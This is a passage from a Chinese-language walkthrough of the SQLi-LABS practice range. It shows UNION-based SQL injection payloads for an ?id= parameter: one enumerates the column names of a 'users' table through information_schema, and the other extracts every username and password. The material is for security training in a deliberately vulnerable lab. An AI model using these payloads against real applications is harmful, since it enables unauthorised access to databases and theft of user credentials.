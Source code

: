 + 使用下列语句查询出某个表中的列名数量，这里我们尝试获取`users`表的列数。

```sql
?id=' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 'users'),user() --+
```

+ 查询结果了`id,username,password`三个列。

![image-20210922214651869](../../images/SQLi-LABS/image-20210922214651869.png)

+ 最后查询出表中的所有数据。

```sql
# 如果你不是在靶场环境我不建议你直接查询某个表中的所有数据，建议加上limit语句。
?id=' union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
```
